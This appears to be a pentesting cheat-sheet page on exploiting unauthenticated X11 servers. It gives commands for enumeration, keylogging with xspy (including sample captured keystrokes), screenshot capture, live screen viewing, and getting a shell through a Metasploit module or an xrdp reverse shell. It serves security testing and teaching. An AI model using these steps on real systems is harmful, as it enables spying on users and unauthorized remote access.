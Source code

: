 # 6000 - Pentesting X11

## Basic Information

The X Window System \(aka X\) is a windowing system for bitmap displays, which is common on UNIX-based operating systems. X provides the basic framework for a GUI based environment. X also does not mandate the user interface – individual programs handle this.  
From: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

**Default port:** 6000

```text
PORT       STATE   SERVICE
6000/tcp   open    X11
```

## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) to sniff the keyboard keystrokes.

Sample Output:

```text
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```

## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```text
./xrdp.py <IP:0>
```

Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

First we need to find the ID of the window using xwininfo

```text
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```

**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```

## Get Shell

```text
msf> use exploit/unix/x11/x11_keyboard_exec
```

Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

**./xrdp.py &lt;IP:0&gt; –no-disp**

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX15.jpg)

It will prompt a new control pane where we can see the R-shell option, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX16.jpg)

We will start the Netcat listening mode in our local system on port 5555, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX17.jpg)

Then add the IP and port and then select R-Shell, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX18.jpg)

Now as can be seen below we have complete system access:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX19.jpg)

[https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

